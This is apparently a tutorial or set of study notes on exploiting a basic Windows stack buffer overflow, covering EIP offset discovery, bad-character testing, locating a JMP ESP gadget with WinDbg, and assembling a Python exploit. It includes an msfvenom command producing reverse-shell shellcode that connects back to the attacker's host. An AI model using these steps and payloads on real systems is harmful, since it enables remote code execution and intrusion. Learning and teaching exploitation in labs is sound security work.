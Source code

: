 # Stack Overflow - Basic

#### Crash the application. ("A" buffer.)

```python
...
size = 3000

buffer = "A" * size
...
```

#### Control the EIP.

```bash
┌──(v0lk3n㉿Laptop)-[~/StackOverflow-Basic]
└─$ msf-pattern_create -l 3000
...

# Replace the buffer with this unique string in our PoC.
# Run the PoC and pick the EIP value at the time of the crash.

┌──(v0lk3n㉿Laptop)-[~/StackOverflow-Basic]
└─$ msf-pattern_offset -q <EIP> -l 3000
...
#Let's say EIP offset = 2600
```

#### Verify that you control EIP. ("A" + "B" + "C" buffer.)

```python
...
size = 3000

buffer = "A" * 2600
eip = "B" * 4
shellcode = "C" * (size - len(buffer) - len(eip))
...
````

#### Locate Space for our shellcode. ("A" + "B" + "C" buffer.) 

```python
size = 3000

buffer = "A" * 2600
eip = "B" * 4
shellcode = "C" * 700
```

Verify that we didn't caused a different crash and inspect the stack pointer at the time of the crash.

```bash
0:005> dds esp L3
```

Check where begin our "C" buffer.

```bash
0:005> dds esp -10 L20
```

If the ESP register didnt point exactly at the begin of our "C" buffer, for example, the ESP point 8 offset after the beginning of our bunch of "C". This will cause a problem as the bunch of "C" will be the place for our shellcode. We can avoid this by adding after te EIP, "8 * C" for the 8 offset, then "692 * D" for our shellcode.

```python
size = 3000

buffer = "A" * 2600
eip = "B" * 4
offset = "C" * 8
shellcode = "D" * 692
...
```

#### Calculate Space for our shellcode.  ("A" + "B" + "C" + "D" buffer, where "C" is our 8 offset, and "D" is our shellcode place.) 

Check the Beginning of the "D" buffer.

```bash
0:005> dds esp -8 L7
```

Check the End of "D" buffer. (dds esp+250 L4)

```bash
0:005> dds esp+250 L4
```

Calcule the place for our shellcode. 

```bash
0:005> ? <End of the buffer> - <Beginning of the buffer>
```

#### Checking for bad characters. (0x00 is not in the list and is considered as bad char)

```python
 ...
 size = 3000
 
 buffer = b"A" * 2600
 eip = b"B" * 4
 offset = b"C" * 8
 badchars = (
 b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d"
 b"\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a"
 b"\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27"
 b"\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34"
 b"\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41"
 b"\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e"
 b"\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b"
 b"\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68"
 b"\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75"
 b"\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82"
 b"\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f"
 b"\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c"
 b"\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9"
 b"\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6"
 b"\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3"
 b"\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
 b"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd"
 b"\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea"
 b"\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7"
 b"\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")
```

```bash
0:005> db esp - 10 L110
```

#### Finding a JMP ESP instruction.

Locate a dll without protection (SEH OFF) using the WinDbg extension <a href="https://code.google.com/archive/p/narly/">"Narly"</a>

```bash
0:005> .load narly

0:005> !nmod
```

Find opcodes of JMP ESP instruction.

```bash
nasm > JMP ESP
00000000  FFE4              jmp esp
```

Locate a jmp esp instruciton inside the dll. Be sure that the address didn't contain any bad characters.

```bash
0:005> lm m Appli1
Browse full module list
start    end        module name
12400000 12423000   Appli1   (deferred)

0:005> s -b 12400000 12423000 0xff 0xe4
124060cf  ...

0:005> u 124060cf
...
124060cf ffe4            jmp     esp
...
```

#### Replace the B buffer with JMP ESP instruction (EIP).

```python
...
size = 3000

buffer = b"A" * 2600
eip = b"\xcf\x60\x40\x12" # 124060cf JMP ESP 
offset = b"C" * 8
shellcode = b"D" * 692
...
```

#### Set a breakpoint to JMP ESP, continue the execution flow, and run the PoC.

```bash
0:005> bp 124060cf
0:005> g
```

#### Walking throught the code with "t" command, once we reach the next instruction of "JMP ESP", read the value of esp register to confirm it contain our bunch of "D".

```bash
...
0:005> t
...
0:005> dc esp L4
```

#### Replace our bunch of D with our shellcode excluding the found badchars (only 0x00 in our case).

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -b "\x00" -f python -v shellcode
```

Execute our exploit and get a shell.

#### If after executing the PoC you didn't get a shell, analyse the crash.

If you see that you'r shellcode is mangled, you can use NOPs instruction before the shellcode, those instruction will be executed since it reach the shellcode to execute it.

```python
...
size = 3000

buffer = b"A" * 2600
eip = b"\xcf\x60\x40\x12" # 124060cf JMP ESP 
offset = b"C" * 8
nops = b"\x90" * 10
shellcode = <Shellcode Here>
...
```
 
 ## Sometimes ...
 
#### Not enough space to test bad characters.

Sometime, if you didn't have enough size to test all the bad characters in one shot.
 
To overcome this, you can comment all the badchars line, and send the maximum badchars size possible at a time.

#### Not enough space for the shellcode.

If you cant find enought space for the shellcode, once you get the JMP ESP instruction, check if any others registers redirect to our buffer (it can be the "A" buffer too).
 
Then if you find it (example ECX), find the JMP ECX opcodes.
 
```bash
┌──(v0lk3n㉿Laptop)-[~/StackOverflow-Basic]
└─$ msf-nasm_shell
nasm > JMP ECX
00000000  FFE1              jmp ecx
```

Complete the address with NOPs instructions to redirect the flow to it.
 
```python
...
size = 2600
shell = <shellcode here>

buffer = b"\x90" * (size - len(shell))
eip = b"\xcf\x60\x40\x12" # 124060cf JMP ESP 
ecx = b"\xff\xe1\x90\x90" # 0xffe1 JMP ECX NOP NOP
nops = b"\x90" * 10
...
```


